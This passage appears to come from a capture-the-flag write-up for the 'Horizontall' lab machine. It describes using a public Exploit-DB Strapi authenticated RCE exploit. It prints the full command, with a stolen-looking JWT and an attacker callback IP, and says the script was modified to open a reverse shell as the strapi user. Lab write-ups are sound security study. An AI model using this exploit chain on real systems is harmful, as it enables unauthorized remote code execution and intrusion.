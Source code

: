 Reviewing exploits again and finding a authenticated RCE.
https://www.exploit-db.com/exploits/50238

Gathered jwt token required for exploit from "Inspect element" on the webpage.

Executed script
```
python3 50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMyNjkxNzc0LCJleHAiOjE2MzUyODM3NzR9.7X8UTJqsO3OeWXdIl1MsguBRKFZODY-0vrADk8N24lc "id" 10.10.14.11
```

Shows response for id command

![](../Attachments/Pasted%20image%2020210926171058.png)

Edited the code to perform a reverse shell(removed LPORT and adjusted the postData)

![](../Attachments/Pasted%20image%2020210926174041.png)

Reverse shell gained on target as strapi user.

![](../Attachments/Pasted%20image%2020210926174149.png)

---